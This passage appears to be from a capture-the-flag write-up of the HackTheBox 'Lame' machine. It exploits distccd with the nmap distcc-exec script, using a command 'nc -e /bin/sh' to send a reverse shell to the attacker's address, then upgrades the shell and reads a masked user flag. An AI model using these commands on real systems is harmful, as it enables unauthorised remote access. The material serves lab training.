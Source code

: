    Nmap done: 1 IP address (1 host up) scanned in 0.44 seconds
    

I’ll play with this execution in more depth in Beyond Root.

## Shell as daemon

The script above actually already showed command execution, running and
returning the results from the `id` command. I can see the process is running
as daemon.

To get a shell, I’ll just start a `nc` listener, and change that command from
`id` to `nc`:

    
    
    root@kali# nmap -p 3632 10.10.10.3 --script distcc-exec --script-args="distcc-exec.cmd='nc -e /bin/sh 10.10.14.24 443'"
    Starting Nmap 7.80 ( https://nmap.org ) at 2020-04-07 14:41 EDT
    Nmap scan report for 10.10.10.3
    Host is up (0.013s latency).
    
    PORT     STATE SERVICE
    3632/tcp open  distccd
    
    Nmap done: 1 IP address (1 host up) scanned in 30.48 seconds
    

Instantly I get a shell:

    
    
    root@kali# nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.3.
    Ncat: Connection from 10.10.10.3:57188.
    id
    uid=1(daemon) gid=1(daemon) groups=1(daemon)
    

I’ll upgrade it with `python -c 'import pty;pty.spawn("bash")'`, ctrl-z, `stty
raw -echo`, `fg`, `reset`, and have a proper shell. I can grab `user.txt`:

    
    
    daemon@lame:/home/makis$ cat user.txt 
    69454a93************************
    

## Shell as root

There are multiple paths to root. I won’t show kernel exploits, though I
suspect there are a bunch (udev seems promising).

### Weak SSH Key

The permissions on `/root` are open to make it world readable:
